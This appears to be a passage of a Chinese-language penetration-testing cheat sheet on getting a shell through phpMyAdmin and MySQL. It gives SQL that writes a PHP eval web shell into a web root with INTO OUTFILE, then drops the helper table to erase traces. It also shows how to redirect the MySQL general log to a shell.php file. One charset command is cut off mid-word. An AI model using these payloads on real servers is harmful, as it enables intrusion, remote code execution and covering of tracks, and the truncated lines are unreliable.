 > 注意，如果是在 `phpmyadmin` 的 `sql` 语句中执行写入的话，路径只能是斜杠 / 或者双反斜杠 \\\\

目录不可写时可尝试其他可写的路径

```
/upload
/templates
/cache
写入中文路径 
```



写入中文路径 shell

```sh
set character_set_client='gbk';set character_set_connection='gbk';set character_set
```



### 2. 创建表 getshell

```sql
CREATE TABLE `mysql`.`xxxxx` (`content` TEXT NOT NULL );
INSERT INTO `mysql`.`xxxxx` (`content` ) VALUES ('<?php @eval($_POST[soap]);?>');
SELECT `content` FROM `mysql`.`xxxxx` INTO OUTFILE 'C:\\phpstudy\\PHPTutorial\\WWW\\test3.php';
或者
Create TABLE xxxxx (content text NOT NULL);
Insert INTO xxxxx (content) VALUES('<?php @eval($_POST[pass]);?>');
select `content` from mysql.xxxxx into outfile 'C:\\phpstudy\\PHPTutorial\\WWW\\test3.php';
然后删除所建的表抹去痕迹
DROP TABLE IF EXISTS `mysql`.`xxxxx`;
```



### 3. 日志 getshell

#### 3.1 general日志

查看日志状态：

```sql
show variables  like  '%general%';
```

general 开启时，所执行的 `sql` 语句都会出现在 ***\****.log 文件。

```sql
SET GLOBAL general_log='on'
```

如果将general_log_file的值换成shell路径

```sql
SET GLOBAL general_log_file = 'C:/phpStudy/WWW/shell.php'
```

然后执行简单的查询

```sql
select '<?php @eval($_POST["123"]);?>'
```
